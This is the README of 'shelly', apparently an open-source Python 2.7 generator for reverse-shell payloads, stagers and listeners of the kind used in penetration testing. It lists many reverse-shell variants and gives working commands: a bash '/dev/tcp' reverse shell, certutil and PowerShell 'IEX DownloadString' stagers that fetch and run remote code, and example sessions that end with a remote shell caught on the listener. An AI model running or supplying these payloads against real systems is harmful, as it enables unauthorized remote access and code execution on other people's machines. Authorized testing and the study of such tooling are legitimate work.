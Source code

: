 # shelly
(mainly reverse shell) payload generator (and shell catcher) written in python2.7

Tool created to automate the creation of payloads to get a reverse shell, making easier to encode it, or serve it using a stager. It's made in a way that is very easy to add more payloads, stagers and connectors.

### Payloads
* reverse_icmp_powershell
* reverse_tcp6_python
* reverse_tcp_bash
* reverse_tcp_bash_setsid (using setsid)
* reverse_tcp_netcatbsd (no -e option)
* reverse_tcp_netcatbsd_noamp (no -e option, not using &)
* reverse_tcp_openssl (encrypts connection)
* reverse_tcp_openssl_noamp (encrypts connection, not using &)
* reverse_tcp_perl
* reverse_tcp_perl_noamp (not using &)
* reverse_tcp_php
* reverse_tcp_phpmonkey (oneliner based on pentest monkeys php rev shell)
* reverse_tcp_powercat (powershell, stager required)
* reverse_tcp_powershell
* reverse_tcp_python
* reverse_tcp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)
* reverse_tcp_ruby
* reverse_socat_ssl
* reverse_udp_dnscat2 (powershell, stager required)
* reverse_udp_netcatbsd (no -e option)
* reverse_udp_perl
* reverse_udp_python
* reverse_udp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)

### Stagers
Various techinques used to deliver staged payloads. Only http at the moment:
* certutil & powershell -ep bypass -nop -f
* certutil & type 2 powershell -nop -
* echo IEX Webclient 2 powershell -nop -


### Connectors
Connectors are the confguration settings that allow to chatch the shell executed for the payload
* reverse_icmp_icmpsh (require have installed icmpsh and setup the connector file with correct path, elevated privs)
* reverse_tcp6_netcat
* reverse_tcp_ncat_ssl
* reverse_tcp_netcat
* reverse_tcp_openssl
* reverse_socat_ssl
* reverse_udp_dnscat2 (require have ruby + server installed and working prior to use it)
* reverse_udp_netcat

## Installation
* ```git clone https://github.com/ompamo/shelly.git```
* configure BASE_PATH on 'shelly' file. Default: /opt/shelly
* ```ln -s /opt/shelly/shelly /usr/local/bin/shelly```
* To enable bash-completion add to your ~/.bashrc file: ```eval "$(register-python-argcomplete shelly)"```
* Install required libs:```pip install -r requirements.txt```

## Extra features
* Auto copy payloads to paperclip (xclip required)
* Generate urlencoded payloads

## Examples
* Generating a reverse tcp bash shell payload
```
root@kali:/opt/shelly# ./shelly rev --payload reverse_tcp_bash --lhost 10.0.2.11 --lport 1234
[*] Payload generated:
/bin/bash -i >& /dev/tcp/10.0.2.11/1234 0>&1
```
* Getting the info for that payload
```
root@kali:/opt/shelly# ./shelly show payload reverse_tcp_bash
[*] bash TCP reverse shell payload
    Info          : bash command to spawn a reverse shell. No special opts required.
    Required Opts : ['LHOST', 'LPORT']
    Connector     : reverse_tcp_netcat
    Payload       : /bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Checking stager info and spawning a PS reverse shell using a web stager on port 8080 and catching the shell
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_certutil_type2powershell --sport 8080 --param1 c:\\Windows\\Tasks --listen 
[*] Payload generated:
certutil -urlcache -split -f http://10.0.2.11:8080/dJaBEjxo1r c:\Windows\Tasks\dJaBEjxo1r.txt & type c:\Windows\Tasks\dJaBEjxo1r.txt | powershell -nop -
[*] Serving stage at port 8080
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 1 of 2 sent
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 2 of 2 sent

[*] Reverse TCP Netcat listener - No additional info
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.0.2.4 49196 received!

PS C:\> 

```
* Also we can get it urlencoded (to work with ie with curl or other tools)
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_echo2powershell --urlencode -l
[*] Payload generated:
echo%20IEX%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A%2F%2F10.0.2.11%3A80%2Fu5KWfOkL6b%27%29%20%7C%20powershell%20-nop%20-
[*] Serving stage at port 80
...
```
## Creating you own...
### Payloads
```
title=bash TCP reverse shell payload
info=bash command to spawn a reverse shell. No special opts required.
required_opts=LHOST;LPORT
connector=reverse_tcp_netcat
payload=/bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, LPORT, PARAM1, PARAM2
* required contains the required parameters for the payload.
* Use an existent connector.
* If you need to configure a mulltilne payload (used with stagers), use multiline. Next payload and finish with %%payload_end%%

### Connectors
```
title=OpenSSL listener (encrypted)
info=If not working generate/create new cert in aux: openssl req -x509 -newkey rsa:1024 -keyout key.pem -out cert.pem -days 365 -nodes
required_opts=LPORT
app=/usr/bin/openssl
params=s_server;-quiet;-key;/opt/shelly/repo/auxiliary/key.pem;-cert;/opt/shelly/repo/auxiliary/cert.pem;-port;LPORT
pre_exec=
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, LPORT, PARAM1, PARAM2
* required_opts contains the required parameters for the connector.
* app contains connector binary path.
* params passed to the connector splitted by semicolons.
* pre_exec will contain a command executed just before launching the connector.

### Stagers
Only HTTP stagers working  at the  moment.
```
title=echo 2 powershell -nop -
info=Download the payload using powershell code echoed to powershell -nop -
required_opts=LHOST;SPORT
http_requests=1
payload=echo IEX(New-Object Net.WebClient).DownloadString('http://LHOST:SPORT/FILENAME') | powershell -nop -
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, SPORT, PARAM1, PARAM2
* required_opts contains the required parameters for the stager.
* http_resquests usually mus be 1, if not working try 2 or higher value.

### External scripts used on this project as payloads
* [PowerCat.ps1](https://github.com/besimorhino/powercat) from Besimorinho
* [Inovke-PowerShellIcmp.ps1](https://github.com/samratashok/nishang) from Samratashok
* [dnscat2.ps1](https://github.com/lukebaggett/dnscat2-powershell) from Luke Bagget
* [php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) from PentestMonkey
